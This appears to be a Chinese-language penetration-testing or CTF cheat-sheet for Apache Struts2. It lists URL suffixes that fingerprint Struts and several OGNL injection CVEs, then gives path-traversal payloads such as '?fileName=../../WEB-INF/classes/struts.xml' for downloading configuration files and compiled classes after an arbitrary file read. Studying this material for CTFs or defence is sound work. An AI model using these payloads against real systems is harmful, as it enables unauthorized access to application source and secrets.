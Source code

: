 特征
/index.action
.do
.action
.do.cn.ction
.xhtml
.shtml

漏洞：

s2-052，namespace处插入OGNL代码引发的漏洞。
S2-013，链接标签带入参数时导致的OGNL解析漏洞
S2-012，链接标签带入参数时导致的OGNL解析漏洞

^
一般工具都能一把梭。综合工具abc_123编写的，B站搜希水函一讲堂，可以看使用教程。


^
## **struts2任意文件读取后利用**

常规，发现是struts
```
../../WEB-INF/web.xml
```


^
struts.xml是struts2的核心配置文件，在开发过程中利用率最高。该文件主要负责管理应用中的Action映射，以及该Action包含的Result定义等。
读取struts.xml
```
?fileName=../../WEB-INF/classes/struts.xml
```
同样根据映射下载
```
?fileName=../../WEB-INF/classes/com/cuitctf/action/UserLoginAction.class

类中引用类，同样下载
../../WEB-INF/classes/com/cuitctf/service/UserService.class

?fileName=../../WEB-INF/classes/com/cuitctf/util/InitApplicationContext.class
```

下载配置文件
```
?fileName=../../WEB-INF/classes/applicationContext.xml
?fileName=../../WEB-INF/classes/user.hbm.xml
```